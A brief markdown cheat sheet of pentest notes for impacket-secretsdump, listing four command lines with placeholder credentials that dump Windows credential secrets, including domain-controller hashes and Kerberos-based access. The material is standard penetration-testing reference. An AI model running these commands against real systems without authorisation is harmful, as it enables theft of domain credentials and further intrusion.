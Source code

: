 # secretsdump

> Dump Windows Secrets

```bash
impacket-secretsdump -just-dc username:password@domain/hostname/IP
```

```bash
impacket-secretsdump -dc-ip 0.0.0.0 username:password@domain/hostname/IP
```

```bash
impacket-secretsdump -k -no-pass domain/hostname/IP
```

```bash
impacket-secretsdump domain/username@hostname/IP 
```
